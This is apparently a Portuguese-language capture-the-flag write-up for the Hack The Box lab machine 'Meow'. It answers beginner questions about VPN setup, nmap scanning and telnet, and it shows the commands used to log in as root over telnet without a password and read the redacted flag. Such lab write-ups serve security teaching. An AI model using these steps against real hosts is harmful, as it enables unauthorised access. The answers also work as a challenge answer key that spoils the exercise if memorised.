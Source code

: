 # Meow

### Tags 
`Linux` `Network` `Account Misconfiguration`
## Questões 

1. **O que significa a sigla VM?** 
*R:* `Virtual Machine`

2. **Que ferramenta usamos para interagir com o sistema operacional para iniciar nossa conexão VPN?**
*R:* `Terminal`

3. **Que serviço usamos para formar nossa conexão VPN?**
*R:* `openvpn`

4.  **Qual é o nome abreviado de uma interface de túnel na saida da sequência de inicialização da VPN?**
*R:* `tun`

5. **Que ferramenta usamos para testar nossa conexão com o alvo?**
*R:* `ping`

6. **Qual é o nome da ferramenta que usamos para escanear as portas do alvo?**
*R:* `nmap`

7. **Qual serviço identificamos na porta 23/tcp durante a varredura?**
*R:* `telnet`

8. **Qual nome de usuário funciona com o prompt de login de gerenciamento remoto para o destino?**
*R:* `root`

## **Envie a flag**
_write-up_:
~~~shell
 telnet 10.129.33.211 23
 Meow login: root
 ls
 cat flag.txt
 HTB{∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎∎}
~~~

